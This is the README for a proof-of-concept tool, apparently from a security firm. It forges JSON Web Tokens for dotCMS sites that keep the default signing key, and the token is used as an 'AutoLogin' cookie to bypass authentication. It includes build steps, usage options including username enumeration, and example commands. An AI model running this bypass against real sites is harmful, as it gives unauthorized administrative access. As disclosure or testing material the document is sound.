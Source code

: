 # dotCMS Token Generator

This PoC tool allows the generation of Json Web Tokens (JWT) for .dotCMS 
instances that use the default signing key. By using the generated token
as "AutoLogin" cookie, it is possible to bypass the dotCMS authentication 
and access the CMS backend. 

## Building
This is a Maven repository, you can build the JAR as follow

```
mvn package
```

## Help
The tool is quite self explaining

```
java -jar ./dotCMSTokenGenerator-0.0.1-shaded.jar 
----- dotCMS TokenGenerator PoC by MOGWAI LABS GmbH (https://mogwailabs.de) -----

usage: generate_dotCMS_JWT.jar
 -e,--enumerate <arg>   enumerate usernames (e.g. -e 1:100:dotcms.org.
                        --> dotcms.org.[1-100]
 -k,--key <arg>         custom signing Key, the JWT will be signed with
                        this key.
 -o,--output <arg>      output File for JWT List
 -u,--user <arg>        userID

Example usage: generateDotCMS_JWT.jar -u 'dotcms.org.1'
Example usage: generateDotCMS_JWT.jar -e '2700:2900:dotcms.org.' -o '/tmp/tokens.lst'

```

## Issues

This tool was build/tested with Oracle Java 1.8. If you are using a newer/different Java version
you might have to run the JAR file as follows:


```
java --add-modules java.xml.bind -jar dotCMSTokenGenerator-0.0.1-shaded.jar  [options] 
```